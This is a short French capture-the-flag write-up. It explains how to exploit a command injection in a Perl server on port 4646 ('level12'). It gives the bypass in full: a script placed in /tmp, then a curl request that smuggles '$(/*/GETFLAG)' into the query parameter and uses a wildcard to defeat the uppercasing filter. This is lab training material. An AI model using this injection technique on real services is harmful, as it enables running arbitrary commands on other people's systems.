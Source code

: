 Pour le level12, un serveur écoute sur le port 4646, on peut trouver son code dans le home de level12:

![image](./perl.png)

Dans le code, on peut voir un appel système:
```
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

C'est donc ça que l'on va exploiter, le seul problème étant que la variable `$xx` subit des traitements avant d'être utilisé.

Ces changement sont appliqués par 2 regex:
1. Remplace toutes les lettres minuscules par leur équivalents en majuscule
2. Garde uniquement le premier mot (tous le reste de la chaine est supprimé à partir du premier whitespace)

Il faut donc que la commande que l'on va envoyer puisse être comprise par le shell même en majuscule et qu'elle ne contienne pas de whitespace.

On va donc placer notre code dans un fichier et essayer d'executer ce fichier:

`echo 'getflag > /tmp/flag12' > /tmp/GETFLAG`

`curl 'localhost:4646?x=$(/tmp/GETFLAG)'`

Cet exemple ne fonctionne pas car le shell ne trouve pas le dossier `/TMP/GETFLAG`.

Pour contrer ce problème, on peut utiliser une wildcard ce qui donne: `/*/GETFLAG`:

`curl 'localhost:4646?x=$(/*/GETFLAG)'`

![image](./result.png)